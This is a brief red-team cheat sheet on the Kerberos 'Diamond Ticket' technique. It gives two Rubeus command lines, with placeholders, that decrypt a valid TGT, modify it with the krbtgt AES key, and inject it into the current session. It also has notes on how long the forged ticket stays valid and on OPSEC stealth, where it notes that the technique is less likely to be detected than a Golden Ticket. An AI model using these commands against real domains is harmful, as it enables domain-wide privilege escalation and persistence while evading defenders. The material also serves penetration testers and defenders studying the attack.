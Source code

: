 # Diamond Ticket

**A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account which makes it less detectable.**

## Modify The Ticket

* If we know the username and password/hash (rc4/ntlm/aes) of any domain user

{% code overflow="wrap" %}
```powershell
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

* If we already have an existing session as any domain user

{% code overflow="wrap" %}
```
Rubeus.exe diamond /domain:DOMAIN /tgtdeleg /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

## Validity

* As long as krbtgt password isn't changed - typically 1 year in big orgs

## OPSEC - Less noisy or more stealthy

* Valid ticket times will be used because the TGT that is being modified is issued by the DC itself.
* Some security solutions check for AS-REQ and AS-REP, and hence there is a change of Golden ticket getting detected.
